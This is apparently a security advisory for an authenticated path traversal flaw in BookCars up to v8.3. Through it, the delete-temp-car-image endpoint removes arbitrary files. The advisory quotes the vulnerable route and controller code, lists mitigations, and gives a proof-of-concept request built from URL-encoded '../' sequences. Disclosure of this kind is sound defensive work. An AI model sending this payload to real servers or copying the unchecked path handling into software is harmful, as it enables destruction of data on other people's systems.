


# Unrestricted File Remove Vulnerability in BookCars

> **Software and Affected Version:** [BookCars](https://github.com/aelassas/bookcars) ≤ v8.3

## Affected Files

-   `/backend/src/routes/carRoutes.ts`
-   `/backend/src/controllers/carController.ts`

## Description

An unrestricted file removal vulnerability exists in [BookCars](https://github.com/aelassas/bookcars) ≤ v8.3 at the `/api/delete-temp-car-image/{image}` endpoint, where the `image` path parameter is concatenated into the target filesystem path without proper validation or canonicalization. As a result, authenticated attackers can delete arbitrary files from the server filesystem by injecting directory traversal sequences. Mitigations include canonicalizing and verifying that resolved paths are inside the intended temporary directory, rejecting directory-traversal patterns (e.g., `..`) or absolute-path inputs, validating filenames against a strict allowlist pattern, implementing proper access controls to restrict file operations to authorized resources only, and running the service with least privilege to limit the impact of potential exploitation.

## Code Analysis

In `/backend/src/routes/carRoutes.ts`:

```ts
routes.route(routeNames.deleteTempImage).post(authJwt.verifyToken, carController.deleteTempImage);
// routeNames.deleteTempImage: '/api/delete-temp-car-image/:image'
```

In `/backend/src/controllers/carController.ts`:

```ts
/**
 * Delete a temp Car image.
 *
 * @export
 * @async
 * @param {Request} req
 * @param {Response} res
 * @returns {*}
 */
export const deleteTempImage = async (req: Request, res: Response) => {
    const { image } = req.params;

    try {
        const imageFile = path.join(env.CDN_TEMP_CARS, image);
        if (!(await helper.pathExists(imageFile))) {
            throw new Error(`[car.deleteTempImage] temp image ${imageFile} not found`);
        }

        await asyncFs.unlink(imageFile);

        res.sendStatus(200);
    } catch (err) {
        logger.error(`[car.deleteTempImage] ${i18n.t('DB_ERROR')} ${image}`, err);
        res.status(400).send(i18n.t('ERROR') + err);
    }
};
```

The request parameter `image` does not check for path traversal patterns such as `..` or encoded variants.

## Proof of Concept

Remove test file `/test/delete-temp-car-image/test-delete-temp-car-image` using the following request:

```plain
/api/delete-temp-car-image/%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Ftest%2Fdelete-temp-car-image%2Ftest-delete-temp-car-image
```



The file was successfully removed:


